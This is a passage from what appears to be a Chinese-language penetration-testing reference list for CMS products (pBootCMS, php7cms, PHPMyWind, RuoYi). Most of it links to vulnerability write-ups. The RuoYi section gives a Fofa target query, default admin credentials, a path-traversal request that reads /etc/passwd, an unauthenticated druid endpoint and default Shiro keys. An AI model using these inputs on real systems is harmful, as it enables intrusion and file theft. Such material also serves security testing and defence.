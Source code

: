 
### pBootCMS

**pBootCMS 3.0.4 前台注入**
- 相关文章
    - [pBootCMS 3.0.4 前台注入漏洞复现](https://mp.weixin.qq.com/s/NgI98cKeWE6I4cUhpFkZvw)

---

### php7cms

**文件包含漏洞**
- 相关文章
    - [php7cms 文件包含漏洞](https://forum.butian.net/share/89)

---

### PHPMyWind

**相关文章**
- [记一次渗透测试历程](https://xz.aliyun.com/t/6018)
- [phpmywind最新版sql注入以及后台目录遍历和文件读取](https://blog.csdn.net/dengzhasong7076/article/details/102139691)
- [PHPMyWind v5.5 审计记录](https://bbs.ichunqiu.com/thread-46703-1-1.html)

**PHPMyWind 5.3 - Cross-Site Scripting**
- POC | Payload | exp
    - https://www.exploit-db.com/exploits/42535

---

### RuoYi

> Fofa: app="若依-管理系统"

**默认口令**
```
admin/admin123
```

**后台任意文件读**
- 影响版本
    - RuoYi <= v4.5.0

- POC | Payload | exp
    ```
    /common/download/resource?resource=/profile/../../../../etc/passwd
    ```

**druid 未授权访问**
- POC | Payload | exp
    ```
    /prod-api/druid/index.html
    ```

**默认shiro key**
```
fCq+/xW488hMTCD+cmJ3aQ==
zSyK5Kp6PZAAjlT+eeNMlg==
```
